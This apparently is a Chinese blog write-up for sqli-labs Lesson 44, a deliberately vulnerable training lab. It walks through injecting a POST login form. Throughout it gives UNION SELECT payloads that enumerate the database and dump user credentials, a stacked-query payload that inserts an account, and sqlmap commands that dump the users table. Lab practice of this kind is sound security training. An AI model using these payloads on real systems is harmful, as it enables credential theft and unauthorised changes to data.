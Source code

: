 ```yaml
---
title: sqli-labs lession-44 POST基于错误-字符型-堆叠盲注
date: 2018-10-21 21:07:08
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-44 POST基于错误-字符型-堆叠盲注

---

## 分析

![001](/img/sql/Lesson-44/001.png)

由于是盲注,已经没有报错信息回显了。但是方式还是有的。

## 注入

### 获取列数

`0' union select 1,2,3;#`

![002](/img/sql/Lesson-44/002.png)

![003](/img/sql/Lesson-44/003.png)

### 获取数据库名

`0' union select 1,database(),3;#`

![004](/img/sql/Lesson-44/004.png)

![005](/img/sql/Lesson-44/005.png)

### 获取表名

`0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3;#`

![006](/img/sql/Lesson-44/006.png)

![007](/img/sql/Lesson-44/007.png)

### 获取列名

`0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),3;#`

![008](/img/sql/Lesson-44/008.png)

![009](/img/sql/Lesson-44/009.png)

### 获取字段

`0' union select 1,(select group_concat(id,0x7e,username,0x7e,password) from users),3;#`

![0110](/img/sql/Lesson-44/010.png)

![011](/img/sql/Lesson-44/011.png)

## 堆叠注入

插入用户

`0';INSERT INTO users(username, password) VALUES ("hacker", "123456");#`

![012](/img/sql/Lesson-44/012.png)

插入用户成功。

## SQLMAP

![013](/img/sql/Lesson-44/013.png)

`sqlmap -r post/post_44.txt -p login_password --method POST --dbms mysql --technique B --threads 20 --level 2 --risk 3 --flush-session --fresh-queries -v 3`

![014](/img/sql/Lesson-44/014.png)

找到payload之后直接上结果吧。

`sqlmap -r post/post_44.txt -p login_password --method POST --dbms mysql --technique B --threads 20 --level 2 --risk 3 -D security -T users --columns --dump`

![015](/img/sql/Lesson-44/015.png)
